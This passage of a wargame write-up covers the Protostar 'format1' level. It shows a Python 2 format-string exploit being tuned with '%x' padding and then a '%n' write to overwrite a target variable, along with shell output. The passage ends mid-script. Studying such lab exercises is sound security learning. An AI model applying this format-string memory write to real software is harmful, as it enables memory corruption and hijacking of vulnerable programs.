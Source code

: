 I edited my Python script to keep the total number of characters in the string input constant. The total number of characters is arbitrary. The characters `"AAAA"` are just there to make it easy to spot `target`'s address even if it is jumbled up.

First, I picked the number 500, but the memory address of `target` was jumbled up. So I knew it was wrong. 
```
import struct
is_time_to_exploit = False
exploit = struct.pack("I", 0x8049638)
exploit += struct.pack("I", 0x8049638)
exploit += "\x41\x41\x41\x41"
total_length = 500
num_Dwords = 147
for i in range(num_Dwords):
        exploit += "_%x"
        
if is_time_to_exploit:
        exploit += "_%n"
        num_Dwords += 1

remaining_len = total_length - (num_Dwords * 3)
assert remaining_len >= 0
for i in range(remaining_len):
        exploit += "_"
        
print exploit
```
```
user@protostar:/opt/protostar/bin$ cat /home/user/format1 | xargs ./format1
[...]_96380031_96380804_41410804[...]
```

I tried several other values, and eventually arrived at the number 478 for the total number of characters. It printed the memory addresses as expected.
```
[...]
total_length = 478
num_Dwords = 136
[...]
```
```
cat /home/user/format1 | xargs ./format1
[...]_8049638_8049638______________________________________________________________________

```


### Winning input

We now have the correct number of characters in the string, as well as the correct number of `"%x"` to reach the memory address of `target`. Instead of printing the 2nd `"8049638"` with `"%x"`, let's write to its memory location with `"%n"` instead. After a simple edit to the Python script, we successfully overwrote the value of `target`.
```
import struct

is_time_to_exploit = True

exploit = struct.pack("I", 0x8049638)
exploit += struct.pack("I", 0x8049638)
exploit += "\x41\x41\x41\x41"

total_length = 478
num_Dwords = 135

for i in range(num_Dwords):
```